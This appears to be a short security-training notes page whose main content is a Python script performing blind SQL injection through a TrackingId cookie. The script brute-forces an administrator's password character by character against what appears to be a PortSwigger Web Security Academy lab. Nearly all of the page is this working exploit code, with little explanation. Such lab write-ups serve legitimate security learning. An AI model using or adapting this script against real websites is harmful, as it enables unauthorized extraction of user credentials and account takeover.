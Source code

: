 # Script to retrieve password

\#This script is capable to retrieve a password if the website is vulnerable to blind sql injection

First is needed to enumerate the password length for administrator user.

Python code:

```
from pwn import *
import requests,signal,time,pdb,sys,string

#This script is capable to retrieve a password if the website is vulnerable to blind sql injection
# First is needed to enumerate the password length for administrator user.

def def_handler(sig, frame):
    print("*\n\n [!] Saliendo...\n")
    sys.exit()

#ctrl+c

signal.signal(signal.SIGINT, def_handler)

main_url = "https://0abd00aa04f92447800d5dc300290017.web-security-academy.net"
characters = string.ascii_lowercase + string.digits

def makeRequest():
    password = ""
    p1 = log.progress("Fuerza bruta")
    p1.status("Iniciando ataque de fuerza bruta")
    time.sleep(2)
    p2 = log.progress("Password")

    for position in range(1,21):
        for character in characters:
            cookies = {
                'TrackingId': "nh7s95y0Ru5DE44s' and (select substring(password,%d,1) from users where username='administrator')='%s" % (position, character),
                'session': '4LUohKbEWGJ7OZsX1TXYEZ3as4asFz5x'
            }
            p1.status(cookies['TrackingId'])
            r = requests.get(main_url, cookies = cookies)
            if "Welcome back!" in r.text:
                password += character
                p2.status(password)
                break
makeRequest()
```

<figure><img src="../../../.gitbook/assets/variables founded.png" alt=""><figcaption><p>Variables source</p></figcaption></figure>



